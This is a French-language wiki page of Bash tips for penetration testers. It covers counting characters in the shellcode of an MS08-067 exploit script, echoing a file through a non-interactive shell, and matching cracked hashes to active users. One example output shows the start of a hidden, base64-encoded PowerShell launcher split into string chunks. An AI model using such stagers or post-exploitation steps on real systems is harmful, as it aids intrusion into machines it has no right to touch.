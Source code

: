 ```yaml
---
title: Bash
permalink: /Bash/
---
```


# Bash

## Commandes utiles
### Divers

Les commandes suivantes permettent de compter le nombre de caractères dans un shellcode:

``` bash
cat ms_08_067.py| grep "^shellcode" | awk '{print $3}' | cut -d'"' -f2 | sed ':a;N;$!ba;s/\n//g' | wc -c
```

Divisions en CLI

``` bash
v=$(cat tmp | cut -d'"' -f2 | tr -d '\n' | wc -c);echo $((v/4))
```

Faire tourner un outil en boucle sur chaque ligne d'un fichier
```
while read dom; do /opt/testssl.sh/testssl.sh --csv $dom ; done < domains.txt
```

### Sed Magic

Les commandes suivantes générent les commandes à taper pour copier/coller un fichier dans un shell non interactif:

``` bash
cat test | sed -e 's/^/echo /g' | sed -e 's/$/>> file.txt/g'
```

Découper une longue entrée sur plusieurs lignes:
``` bash
cat test | sed 's/.\{70\}/Str = Str + "&"\n/g'
Str = Str + "%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACg"
Str = Str + "AWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnA"
[...]
```

### Grep

La commande suivante permet de récupérer les lignes dans cracked.txt qui contiennent un élément de enabled.txt (ex: récupérer les hashs des utilisateurs s'ils sont actifs)

``` bash
fgrep -f enabled.txt cracked.txt 
```

## Références
- [Black Magic Parsing with Regular Expressions - Parsing for Pentesters](https://bluescreenofjeff.com/2016-10-14-black-magic-parsing-with-regular-expressions-parsing-for-pentesters/)
- [Finding Diamonds in the Rough- Parsing for Pentesters](https://bluescreenofjeff.com/2016-07-26-finding-diamonds-in-the-rough-parsing-for-pentesters/)
- [F’Awk Yeah! Advanced sed and awk Usage (Parsing for Pentesters 3)](https://bluescreenofjeff.com/2016-07-26-finding-diamonds-in-the-rough-parsing-for-pentesters/)
